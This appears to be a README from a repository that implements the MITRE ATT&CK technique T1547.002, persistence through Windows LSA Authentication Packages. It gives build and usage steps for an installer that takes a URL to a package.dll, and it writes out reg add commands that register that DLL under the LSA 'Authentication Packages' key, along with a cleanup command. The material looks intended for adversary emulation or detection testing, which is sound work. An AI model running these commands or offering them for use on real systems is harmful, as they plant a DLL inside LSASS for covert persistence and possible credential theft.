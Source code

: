 # T1547.002
## install.exe
### Compiling
    dotnet publish -c Release -r win-x64
### Using
    install.exe "<url_to_package.dll>"

## package.dll
Run `build.bat` in the developer prompt.

## Manual commands
Creating the key
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0"\0"package.dll" /f
```
Cleanup
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0" /f
```